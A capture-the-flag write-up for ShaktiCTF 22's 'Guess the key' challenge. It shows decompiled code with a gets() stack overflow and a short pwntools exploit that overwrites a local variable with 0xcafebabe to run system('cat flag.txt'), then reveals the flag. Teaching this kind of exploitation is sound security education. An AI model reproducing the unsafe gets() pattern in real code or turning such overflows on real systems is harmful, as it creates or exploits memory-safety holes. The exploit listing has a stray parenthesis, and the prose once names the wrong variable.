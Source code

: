 # Shaktictf 22 write-ups

## Guess the key

DESCRIPTION:
Guess the correct key to win!

Note:The server is running on Ubuntu 20.04.

Author: Claire de lune

FLAG FORMAT: shakti{}
### Intended solution 
This is a basic variable overwrite challenge.
A binary file is given as an attachment, where the usual checks give:
![](https://i.imgur.com/bwRNZWV.png)

![](https://i.imgur.com/iuONMGu.png)
 
 Running the file-
 ![](https://i.imgur.com/pIXUlKL.png)

Decompiling the func fuction in binary gives the following-
```
int func()
{
  char v1[60]; // [rsp+0h] [rbp-40h] BYREF
  int v2; // [rsp+3Ch] [rbp-4h]

  puts("Guess the correct key to win!");
  v2 = -559038737;
  printf("Enter the key: ");
  gets(v1);
  if ( v2 == -889275714 )
    return system("cat flag.txt");
  puts("Wrong Key");
  return puts("Try again!");
}
```
Here '-559038737' is `0xdeadbeef` and '-889275714' is `0xcafebabe`.We have to overwrite the variable v2 to `0xcafebabe` to pass the check and cat flag.

There is a gets function present in func(). So we can we can overfow the buffer and then access v2 through that.
On the stack, the size of v1 is 60 bytes, in order to overwrite v2, we must overflow v1 with 60 bytes of junk data and then overwrite v1 with `0xcafebabe`


Exploit:
```python=
(from pwn import *
elf = ELF("variable")
io = process(elf.path)
payload =b'a'*60 + p64(0xcafebabe)
io.sendline(payload)
io.interactive()
```
This gives us the flag: `shakti{0verWr171ng_15_FuN}`